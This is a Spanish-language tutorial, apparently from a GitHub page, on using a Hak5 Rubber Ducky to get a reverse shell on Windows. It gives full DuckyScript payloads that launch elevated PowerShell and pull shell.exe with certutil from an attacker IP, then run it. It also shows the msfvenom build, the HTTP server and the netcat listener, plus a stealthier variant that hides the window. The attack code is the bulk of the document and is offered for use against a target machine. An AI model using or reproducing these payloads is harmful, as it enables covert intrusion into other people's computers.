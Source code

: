 # Rubber Ducky Rev Shell

![Untitled](Rubber%20Ducky%20Rev%20Shell%202a59b0b6d05c41abbb71075f89263124/Untitled.png)

Buenas! Hoy os voy a compartir como utilizar una herramienta de Hak5, aunque también se puede hacer de forma casera, en mi caso es el RubberDucky de Hak5.

El RubberDucky se compone de estos elementos:

![Untitled](Rubber%20Ducky%20Rev%20Shell%202a59b0b6d05c41abbb71075f89263124/Untitled%201.png)

El 1º elemento es una tarjeta MicroSD de 128mb en este caso

El 2º elemento es el dispositivo que voy a usar para controlar los archivos que quiero meter en la tarjeta MicroSD

El 3º elemento es el RubberDucky desenfundado, una vez que este todo listo metemos la tarjeta en el Rubberducky y ya esta listo para la acción.

 Su uso es muy sencillo, os lo voy a explicar en los siguientes pasos:

## 1º Paso

En este caso voy a programar una reverse shell a mi equipo en el Rubberducky, por lo que nos iremos a la pagina → [https://ducktoolkit.com/encode#](https://ducktoolkit.com/encode#)

Y programaremos los comandos que se van a ejecutar cuando ingresemos el RubberDucky:

![Untitled](Rubber%20Ducky%20Rev%20Shell%202a59b0b6d05c41abbb71075f89263124/Untitled%202.png)

En la primera parte ingresaremos nuestro código:

```powershell
DELAY 750
GUI r
DELAY 1000
STRING powershell Start-Process powershell -Verb runAs
ENTER
DELAY 750
STRING certutil.exe -urlcache -f http://192.168.234.130/shell.exe C:\Windows\Temp\shell.exe
ENTER
DELAY 500
STRING Start-Process -FilePath "C:\Windows\Temp\shell.exe"
ENTER
```

Con `DELAY` → Hacemos que el programa espere cierta cantidad de tiempo

Con `GUI r` → Seria el equivalente a Windows + R

Con `STRING` → Le decimos que comando queremos escribir

Con `Enter` → Hace la función de la tecla ↲

Una vez terminado el script, seleccionamos el idioma

Le damos a Encode Payload

Y nos lo descargamos

## 2º Paso

En nuestra maquina atacante nos crearemos el binario malicioso, en este caso con la herramienta `msfvenom` 

`msfvenom -p windows/shell_reverse_tcp lhost=192.168.234.130 lport=443 -f exe > shell.exe`

```bash
root@kali /home/kali/Desktop/POCRubberDucky
❯ msfvenom -p windows/shell_reverse_tcp lhost=192.168.234.130 lport=443 -f exe > shell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
```

Nos compartimos un servidor http con `python` y nos ponemos en escucha con `netcat`

```bash
root@kali /home/kali/Desktop/POCRubberDucky
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

─────────────────────────────────────────────────────────────────────────────────────────────
root@kali /home/kali/Desktop/POCRubberDucky
❯ rlwrap nc -nlvp 443                  
listening on [any] 443 ...
```

## 3º Paso

Meter el inject.bin descargado en la MicroSD

![Untitled](Rubber%20Ducky%20Rev%20Shell%202a59b0b6d05c41abbb71075f89263124/Untitled%203.png)

Sacamos la MicroSD y la metemos en el RubberDucky:

![Untitled](Rubber%20Ducky%20Rev%20Shell%202a59b0b6d05c41abbb71075f89263124/Untitled%204.png)

## 4º Paso

Metemos el RubberDucky al sistema Windows que queremos vulnerar:

Video aqui

De esta forma conseguimos ganar acceso a un sistema en tan solo 10 segundos.

Pero si os dais cuenta, en el sistema Windows se quedan las terminales abiertas y se ven como se ejecutan los comandos, una forma mas sigilosa y mas rapida seria programar el script de esta forma:

```powershell
DELAY 750
GUI r
DELAY 500
STRING powershell Start-Process powershell -Verb runAs
ENTER
ALT y
DELAY 400
ENTER
ALT SPACE
DELAY 300
STRING m
DELAY 300
DOWNARROW
REPEAT 100
ENTER
STRING certutil.exe -urlcache -f http://192.168.234.130/shell.exe C:\Windows\Temp\shell.exe
ENTER
DELAY 300
STRING Start-Process -FilePath "C:\Windows\Temp\shell.exe"
ENTER
STRING exit
ENTER
```

![Untitled](Rubber%20Ducky%20Rev%20Shell%202a59b0b6d05c41abbb71075f89263124/Untitled%205.png)

Se ejecutaría de esta forma:

2 Video aqui

Como vemos es una herramienta muy sencilla de utilizar, espero que os haya gustado, si veo que a la gente le gusta quizás traiga otros scripts mas adelante.